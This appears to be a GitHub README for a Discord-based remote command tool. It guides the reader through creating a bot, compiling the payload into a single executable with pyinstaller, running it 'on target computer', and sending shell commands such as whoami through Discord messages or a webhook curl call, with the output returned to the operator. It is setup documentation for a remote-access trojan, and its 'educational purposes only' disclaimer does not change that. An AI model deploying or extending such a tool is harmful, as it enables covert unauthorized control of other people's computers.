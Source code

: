 # Requirements

Python3
Discord
Discord BOT
Discord Webhook (optional, only if you don't want to interact directly with the server)

### Python Libs (you can install manually, or just run 'pip install -r requirements.txt'
discord.py (pip install discord)
pyinstaller (pip install pyinstaller)

# Guide
### Discord Bot
First, go to the discord developer application portal (https://discord.com/developers/applications) and create a new application.

In your apllication, go to "Bot" section, and click "Reset Token" button (you will use this token in the code). Select the "Message Content Intent" option.

Go to OAuth2 section, in "OAuth2 URL Generator" select "bot" option, and give the permissions "View Channels", "Send Messages", "Read Message History". Instead, if possible, you can just give the "Administrator" permission.
Copy the generated URL, paste in your browser, and add the bot to your server.

### Installation
Copy the Bot Token, and paste in the code.

Add the discord name of the users that will send the commands.

Compile to executable using pyinstaller: 
```
pyinstaller --onefile /path/to/main.py
```
The binary will be generated inside the "dist" folder. 

Now just execute the file on target computer, and send the commands on any text-channel of the discord server. 

The bot will read the message, and if the message owner is present on the list, it will execute the code and return the output.


### Webhook (Optional)

You also can use webhooks to send the commands, that way you won't interact directly with the server.

Go to Discord Server Settings > Integrations > Webhooks

Click "New Webhook", give it a name, select which channel the webhook will send the messages for you, and copy the webhook URL.

Now, you can use this command to send the commands with the webhook:
```
curl WEBHOOK_URL -H "Content-Type: application/json" --data "{\"content\": \"whoami\"}"
```



## Disclaimer: This project is for educational purposes only, I do not take responsibility for what you will do
